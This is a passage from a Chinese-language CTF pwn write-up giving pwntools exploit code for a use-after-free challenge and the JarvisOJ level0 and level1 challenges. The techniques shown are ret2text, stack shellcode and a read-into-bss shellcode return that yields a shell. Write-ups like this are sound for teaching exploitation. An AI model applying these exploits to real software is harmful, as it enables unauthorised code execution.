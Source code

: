 本题和 hitcontraining_uaf 类似，不过后者是 32 位的。

```python
def add(size,name='a'):
    sla(':','1')
    sla(':',str(size))
    sla(':',name)

def delete(index):
    sla(':','2')
    sla(':',str(index))

def show(index):
    sla(':','3')
    sla(':',str(index))

add(0x10)
add(0x10)
delete(0)
delete(1)
add(0x8,p32(elf.sym['magic']))
show(0)
```

## JarvisOJ

### level0

ret2text。

```python
payload = flat('a'*0x88,elf.sym['callsystem'])
sla('World\n', payload)
```

### level1

题目给出了 `buf` 的真实地址，且 `buf` 可以输入 `0x100` 字节，那么可以在 `buf` 中写 shellcode 然后返回到 `buf`。

```python
ru('0x')
buf = int(ru('?'),16)
leak('buf', buf)
payload = asm(shellcraft.sh()).ljust(0x88+4,'a') + p32(buf)
sl(payload)
```

但是本题远程文件出了点问题导致拿不到 `buf` 的真实地址，所以换了种办法，调用 `read` 把 shellcode 读取到 bss 段上，然后返回到 bss 段 getshell。

```python
pop3 = 0x8048549
payload = flat('a'*(0x88+4),elf.plt['read'],pop3,0,elf.bss(),0x100,elf.bss())
sl(payload)
sl(asm(shellcraft.sh()))
```
